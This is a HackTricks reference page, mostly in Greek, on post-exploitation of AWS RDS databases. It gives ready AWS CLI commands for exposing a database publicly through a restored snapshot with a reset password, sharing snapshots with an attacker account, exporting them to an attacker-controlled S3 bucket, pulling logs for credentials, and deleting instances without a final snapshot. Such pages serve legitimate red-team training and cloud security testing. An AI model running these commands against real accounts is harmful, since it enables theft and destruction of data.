 # AWS - RDS Post Exploitation

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## RDS

Για περισσότερες πληροφορίες ελέγξτε:

{% content-ref url="../aws-services/aws-relational-database-rds-enum.md" %}
[aws-relational-database-rds-enum.md](../aws-services/aws-relational-database-rds-enum.md)
{% endcontent-ref %}

### `rds:CreateDBSnapshot`, `rds:RestoreDBInstanceFromDBSnapshot`, `rds:ModifyDBInstance`

Εάν ο επιτιθέμενος έχει αρκετά δικαιώματα, θα μπορούσε να κάνει μια **DB δημόσια προσβάσιμη** δημιουργώντας ένα στιγμιότυπο της DB και στη συνέχεια μια δημόσια προσβάσιμη DB από το στιγμιότυπο.
```bash
aws rds describe-db-instances # Get DB identifier

aws rds create-db-snapshot \
--db-instance-identifier <db-id> \
--db-snapshot-identifier cloudgoat

# Get subnet groups & security groups
aws rds describe-db-subnet-groups
aws ec2 describe-security-groups

aws rds restore-db-instance-from-db-snapshot \
--db-instance-identifier "new-db-not-malicious" \
--db-snapshot-identifier <scapshotId> \
--db-subnet-group-name <db subnet group> \
--publicly-accessible \
--vpc-security-group-ids <ec2-security group>

aws rds modify-db-instance \
--db-instance-identifier "new-db-not-malicious" \
--master-user-password 'Llaody2f6.123' \
--apply-immediately

# Connect to the new DB after a few mins
```
### `rds:ModifyDBSnapshotAttribute`, `rds:CreateDBSnapshot`

Ένας επιτιθέμενος με αυτές τις άδειες θα μπορούσε **να δημιουργήσει ένα στιγμιότυπο μιας βάσης δεδομένων** και να το κάνει **δημόσια** **διαθέσιμο**. Στη συνέχεια, θα μπορούσε απλά να δημιουργήσει στον δικό του λογαριασμό μια βάση δεδομένων από αυτό το στιγμιότυπο.

Αν ο επιτιθέμενος **δεν έχει την `rds:CreateDBSnapshot`**, θα μπορούσε ακόμα να κάνει **άλλα** δημιουργημένα στιγμιότυπα **δημόσια**.

{% code overflow="wrap" %}
```bash
# create snapshot
aws rds create-db-snapshot --db-instance-identifier <db-instance-identifier> --db-snapshot-identifier <snapshot-name>

# Make it public/share with attackers account
aws rds modify-db-snapshot-attribute --db-snapshot-identifier <snapshot-name> --attribute-name restore --values-to-add all
## Specify account IDs instead of "all" to give access only to a specific account: --values-to-add {"111122223333","444455556666"}
```
{% endcode %}

### `rds:DownloadDBLogFilePortion`

Ένας επιτιθέμενος με την άδεια `rds:DownloadDBLogFilePortion` μπορεί να **κατεβάσει τμήματα των αρχείων καταγραφής μιας RDS παρουσίας**. Εάν ευαίσθητα δεδομένα ή διαπιστευτήρια πρόσβασης καταγραφούν κατά λάθος, ο επιτιθέμενος θα μπορούσε ενδεχομένως να χρησιμοποιήσει αυτές τις πληροφορίες για να κλιμακώσει τα δικαιώματά του ή να εκτελέσει μη εξουσιοδοτημένες ενέργειες.

{% code overflow="wrap" %}
```bash
aws rds download-db-log-file-portion --db-instance-identifier target-instance --log-file-name error/mysql-error-running.log --starting-token 0 --output text
```
{% endcode %}

**Πιθανές Επιπτώσεις**: Πρόσβαση σε ευαίσθητες πληροφορίες ή μη εξουσιοδοτημένες ενέργειες χρησιμοποιώντας διαρρεύσαντα διαπιστευτήρια.

### `rds:DeleteDBInstance`

Ένας επιτιθέμενος με αυτές τις άδειες μπορεί να **DoS υπάρχουσες RDS περιπτώσεις**.

{% code overflow="wrap" %}
```bash
# Delete
aws rds delete-db-instance --db-instance-identifier target-instance --skip-final-snapshot
```
{% endcode %}

**Πιθανές επιπτώσεις**: Διαγραφή υπαρχόντων RDS instances και πιθανή απώλεια δεδομένων.

### `rds:StartExportTask`

{% hint style="info" %}
TODO: Δοκιμή
{% endhint %}

Ένας επιτιθέμενος με αυτή την άδεια μπορεί να **εξάγει ένα στιγμιότυπο RDS instance σε ένα S3 bucket**. Εάν ο επιτιθέμενος έχει έλεγχο πάνω στο προορισμένο S3 bucket, μπορεί να έχει πρόσβαση σε ευαίσθητα δεδομένα μέσα στο εξαγόμενο στιγμιότυπο.

{% code overflow="wrap" %}
```bash
aws rds start-export-task --export-task-identifier attacker-export-task --source-arn arn:aws:rds:region:account-id:snapshot:target-snapshot --s3-bucket-name attacker-bucket --iam-role-arn arn:aws:iam::account-id:role/export-role --kms-key-id arn:aws:kms:region:account-id:key/key-id
```
{% endcode %}

**Πιθανές επιπτώσεις**: Πρόσβαση σε ευαίσθητα δεδομένα στο εξαγόμενο στιγμιότυπο.

{% hint style="success" %}
Μάθετε & εξασκηθείτε στο AWS Hacking:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Μάθετε & εξασκηθείτε στο GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Υποστήριξη HackTricks</summary>

* Ελέγξτε τα [**σχέδια συνδρομής**](https://github.com/sponsors/carlospolop)!
* **Εγγραφείτε στην** 💬 [**ομάδα Discord**](https://discord.gg/hRep4RUj7f) ή στην [**ομάδα telegram**](https://t.me/peass) ή **ακολουθήστε** μας στο **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Μοιραστείτε κόλπα hacking υποβάλλοντας PRs στα** [**HackTricks**](https://github.com/carlospolop/hacktricks) και [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

